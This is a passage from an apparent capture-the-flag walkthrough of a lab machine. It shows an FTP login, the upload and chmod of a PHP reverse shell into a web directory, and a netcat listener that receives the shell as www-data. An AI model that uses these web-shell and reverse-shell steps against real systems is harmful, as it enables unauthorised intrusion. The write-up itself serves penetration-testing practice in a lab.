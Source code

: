 ```
# ftp 192.168.1.88
Connected to 192.168.1.88.
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 1 of 5 allowed.
220-Local time is now 05:36. Server port: 21.
220-This is a private system - No anonymous login
220-IPv6 connections are also welcome on this server.
220 You will be disconnected after 15 minutes of inactivity.
Name (192.168.1.88:root): ahuxley
331 User ahuxley OK. Password required
Password:
230-User ahuxley has group access to:  2002    
230 OK. Current directory is /
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful
150 Connecting to port 44379
drwxr-xr-x    2 1031     2002         4096 Apr  7 12:36 web
226-Options: -l 
226 1 matches total
ftp> cd web
250 OK. Current directory is /web
ftp> put rshell.php
local: rshell.php remote: rshell.php
200 PORT command successful
150 Connecting to port 54359
226-File successfully transferred
226 0.014 seconds (measured here), 379.54 Kbytes per second
5494 bytes sent in 0.00 secs (10882.8 kB/s)
ftp> chmod 0755 rshell.php
200 Permissions changed on rshell.php
ftp> 
```

You can get a PHP reverse shell from anywhere, I got mine from [http://pentestmonkey.net/tools/web-shells/php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). I configured my reverse shell to connect to port 9998, so I fired up nc to listen to that port. Once nc was running, I headed over to http://ahuxley.zincftp.com/rshell.php and got my reverse shell on nc:

```
# nc -lvp 9998
listening on [any] 9998 ...
192.168.1.88: inverse host lookup failed: Unknown server error : Connection timed out
connect to [192.168.1.34] from (UNKNOWN) [192.168.1.88] 60455
Linux holynix2 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686 GNU/Linux
 05:43:19 up 1 day,  6:34,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ 
```

